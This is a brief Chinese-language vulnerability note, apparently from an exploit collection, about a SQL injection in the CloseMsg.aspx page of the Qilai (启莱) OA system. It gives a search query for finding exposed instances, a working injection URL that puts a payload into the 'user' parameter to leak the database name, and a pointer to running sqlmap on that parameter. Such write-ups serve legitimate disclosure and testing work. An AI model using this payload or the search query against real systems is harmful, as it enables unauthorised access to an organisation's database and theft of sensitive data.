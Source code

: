 # 启莱OA CloseMsg.aspx SQL注入漏洞

## 漏洞描述

启莱OA CloseMsg.aspx文件存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
启莱OA
```

## 网络测绘

```
app="启莱OA"
```

## 漏洞复现

登录页面如下

存在SQL注入的文件为 CloseMsg.aspx

```plain
http://xxx.xxx.xxx.xxx/client/CloseMsg.aspx?user=' and (select db_name())>0--&pwd=1
```

![qilai-3-1](images/qilai-3-1.png)

使用SQLmap对参数 user 进行注入

![qilai-3-2](images/qilai-3-2.png)
